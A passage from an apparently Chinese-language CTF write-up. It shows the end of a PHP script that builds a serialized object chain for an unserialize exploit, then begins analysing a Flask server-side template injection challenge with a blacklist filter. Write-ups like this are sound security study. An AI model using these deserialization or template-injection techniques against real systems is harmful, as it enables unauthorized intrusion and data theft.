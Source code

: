 ```php
    }

    public function __toString(){
        $ai = $this->Si;
        echo 'I W1ll remember you';
        return $ai();
    }
}


$payload = new MyObject();
$payload -> NoLove = new hybcx();
$payload -> NoLove -> Si = new MyObject();
// $payload -> NoLove -> Si -> JiuYue = '';

echo serialize($payload);
```
:::


![16](https://the0n3.top/medias/buildCTF/16.png)

## RedFlag

格式化源码，分析

```python
import os
import flask

app = flask.Flask(__name__)
app.config['FLAG'] = os.getenv('FLAG')

@app.route('/')
def index():
    return open(__file__).read()

@app.route('/redflag/')
def redflag(redflag):
    def safe_jinja(payload):
        payload = payload.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + payload
    
    return flask.render_template_string(safe_jinja(redflag))
```

第一眼读源码，发现过滤函数的使用，不能用函数了，什么都做不了

往上看可以发现重点

```python
app.config['FLAG'] = os.getenv('FLAG')
```
